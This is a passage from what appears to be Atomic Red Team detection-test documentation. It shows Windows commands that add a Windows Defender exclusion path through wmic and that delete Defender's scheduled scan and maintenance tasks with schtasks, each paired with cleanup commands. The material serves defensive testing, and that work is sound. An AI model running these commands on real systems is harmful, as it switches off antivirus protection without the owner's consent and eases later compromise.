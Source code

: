 
**auto_generated_guid:** 59d386fc-3a4b-41b8-850d-9e3eee24dfe4






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic.exe /Namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"ATOMICREDTEAM\"
```

#### Cleanup Commands:
```cmd
wmic.exe /Namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Remove ExclusionPath=\"ATOMICREDTEAM\"
```





<br/>
<br/>

## Atomic Test #38 - Delete Windows Defender Scheduled Tasks
The following atomic test will delete the Windows Defender scheduled tasks.

[Reference](https://thedfirreport.com/2022/05/09/seo-poisoning-a-gootloader-story/)

**Supported Platforms:** Windows


**auto_generated_guid:** 4b841aa1-0d05-4b32-bbe7-7564346e7c76






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
IF EXIST "%temp%\Windows_Defender_Scheduled_Scan.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /f )
IF EXIST "%temp%\Windows_Defender_Cleanup.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /f )
IF EXIST "%temp%\Windows_Defender_Verification.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" /f )
IF EXIST "%temp%\Windows_Defender_Cache_Maintenance.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /f )
```

#### Cleanup Commands:
```cmd
schtasks /create /xml "%temp%\Windows_Defender_Scheduled_Scan.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /f
schtasks /create /xml "%temp%\Windows_Defender_Cleanup.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /f
schtasks /create /xml "%temp%\Windows_Defender_Verification.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" /f
schtasks /create /xml "%temp%\Windows_Defender_Cache_Maintenance.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /f
```
